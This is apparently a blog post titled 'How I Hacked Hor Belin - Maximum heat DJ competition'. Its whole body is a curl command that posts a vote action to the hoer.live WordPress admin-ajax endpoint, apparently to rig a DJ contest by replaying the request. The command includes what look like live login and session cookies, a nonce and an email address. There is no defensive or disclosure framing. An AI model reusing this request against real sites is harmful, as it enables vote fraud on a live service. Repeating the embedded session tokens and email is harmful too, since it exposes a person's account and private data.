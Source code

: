 ```yaml
---
title: "Hor Berlin - Maximum Heat"
date: "2025-05-16"
slug: "hor-berlin"
---
```


# How I Hacked Hor Belin - Maximum heat DJ competition

curl -X POST 'https://hoer.live/wp-admin/admin-ajax.php' 
-H 'Content-Type: application/x-www-form-urlencoded' 
-H 'Cookie: wordpress_sec_471f8b8c7626cb332fe703edc58c1a00=jordan.gallant.ct@gmail.com|1745908244|8gvejWrIQOvFzuoG0riBKOjLTQQingRn6laV84EaCNH|7266f124873bce04fb543dde89d68d36d72b0951406defcca85938f590b13e5d; 
PHPSESSID=v0pqjori952daiefm5cjcfoi3v; shop_popup=2024-09-17 12:58:48; 
sbjs_migrations=1418474375998=1; sbjs_first_add=fd=2025-04-15 05:25:56|||ep=https://hoer.live/|||rf=(none); 
sbjs_first=typ=typein|||src=(direct)|||mdm=(none)|||cmp=(none)|||cnt=(none)|||trm=(none)|||id=(none)|||plt=(none)|||fmt=(none)|||tct=(none); 
cookieConsent=consent; videoMuted=true; wordpress_test_cookie=WP Cookie check; wordpress_logged_in_471f8b8c7626cb332fe703edc58c1a00=jordan.@email.com|1745908244|8gvejWrIQOvFzuoG0riBKOjLTQQingRn6laV84EaCNH|37bbd75563f92812f88f53298e02b1e3cb0e9053d4c312a64fdb7ae04d000020; 
wp_woocommerce_session_471f8b8c7626cb332fe703edc58c1a00=117923||1744871089||1744867489||d6c4a7fdd2d28b8ce7aa9a1bc0074fec; sbjs_current_add=fd=2025-04-15 07:10:47|||ep=https://hoer.live/maximum-heat-contest/?signed=g?signed=g|||rf=https://accounts.google.com/; 
sbjs_current=typ=referral|||src=accounts.google.com|||mdm=referral|||cmp=(none)|||cnt=/|||trm=(none)|||id=(none)|||plt=(none)|||fmt=(none)|||tct=(none); sbjs_udata=vst=2|||uip=(none)|||uag=Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36; current=Nastya Vogan|https://hoer.live/nastya-vogan-hor-mar-9-2023/|XI5LNhke7q4|36514; 
currentTime=0; sbjs_session=pgs=21|||cpg=https://hoer.live/contest_entry/719-jgsleepwithme/' 
-d 'action=vote&security=b5c9006423&post_id=218037&isVoted=0'
